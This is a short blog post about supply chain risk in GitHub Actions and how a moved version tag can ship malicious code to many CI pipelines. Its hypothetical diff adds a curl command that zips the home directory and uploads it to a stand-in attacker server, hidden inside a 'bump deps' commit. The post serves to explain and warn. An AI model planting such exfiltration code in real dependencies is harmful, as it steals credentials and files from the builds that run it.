 ```yaml
---
date: 20240511
title: GitHub Actions beg for a supply chain attack
description: We're asking for something bad to happen.
image: assets/gha-security/gh_actions.png
---
```


# GitHub Actions beg for a supply chain attack

# What's the problem

When the GitHub Actions runner sees

```yaml
- name: Clone repository
  uses: actions/checkout@v4
```

it `git clone`s the `checkout` repository of the `actions` user/organization on
GitHub and then switches to the git tag named `v4`. The `actions` org is
maintained by GitHub staff, so we trust it to be secure and well-behaved.

Recently though, a cool new framework is taking off. It's called `foo`. Your
company decides to build a project with it and one of your tasks in the current
sprint is to set up a CI pipeline. Fortunately, the open-source community
delivers once again; you quickly discover that somebody has already created an
Action to make setup easy:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
```

Some time later `alice` stops maintaining the `setup-foo` action, but she wants
the Action to live on, so she appoints a new friendly person who's been around
the repo for a while and contributed a few PRs. That's how `malloy` becomes the
maintainer of `setup-foo`.

Some time later, `malloy` makes a new release of `setup-foo` with the following
code:

```diff
 #!/usr/bin/env sh
 echo "imagine there is shell code here"
+cd ~ && zip -r nothing_really.zip .
+curl \
+  --request POST https://totally-legit-server.ru \
+  --form "file=@$HOME/nothing_really.zip"
+cd -
 echo "legit shell code"
 echo "more legit shell code"
```

The change is introduced in a commit with the message "bump deps" that removes
6969 and adds 2137 lines of code to many files, mostly `package-lock.json`. Then
`malloy` releases this new version as `v2.1`:

```console
git commit -m "bump deps" && git push origin master
git tag v2.1
```

and then he moves the `v2` tag to point to the same commit as `v2.1`, [**just
like GitHub recommends**][gh]:

```console
git tag --delete v2 # delete tag locally
git push origin :v2 # delete tag on the remote
git tag v2
git push --tags
```

It's a Friday night. Hundreds of thousands of nightly builds run, in thousands
of repositories, including private ones.

No one notices anything for a few days.

# Possible fix

My knowledge of the cybersecurity landscape is very basic, but I suppose a
solution could be for GitHub to deprecate the current way of using external
actions, and require us to provide a checksum:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
  sha256: ea3a03b4971eeb62730e1de238225cc4e6145f0eb50ad28b1379f2a2ee71e16e
```

The problem with the above is twofold:

- First and foremost, it no longer looks as sexy.
- Realistically, who checks the diff when bumping the dependencies?

---

I maintain the GiHub Actions called [subosito/flutter-action][^1]. If you
enjoyed the read, consider [sending me a few bucks for coffee][sponsor]. I pinky
promise to never perform a supply chain attack on you.

[gh]: https://docs.github.com/en/actions/creating-actions/about-custom-actions#using-tags-for-release-management
[sponsor]: https://github.com/sponsors/bartekpacia
[subosito/flutter-action]: https://github.com/subosito/flutter-action

[^1]: It should be named `setup-flutter`.
